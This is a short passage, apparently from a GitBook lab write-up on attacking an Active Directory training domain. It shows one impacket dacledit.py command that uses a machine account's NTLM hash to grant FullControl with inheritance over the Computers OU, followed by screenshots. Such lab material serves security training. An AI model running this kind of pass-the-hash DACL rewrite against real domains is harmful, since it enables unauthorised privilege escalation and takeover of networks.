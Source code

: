 and use it to modify the dacl on computers OU (All sub object will inherite the dacl)

{% code overflow="wrap" %}
```bash
./dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -hashes 'aad3b435b51404eeaad3b435b51404ee:bc97a8db7f565a18bbb3b2b4eaefb95a' -dc-ip 192.168.58.20 academy/SQL$
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240315151638.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted image 20240315151835.png" alt=""><figcaption></figcaption></figure>

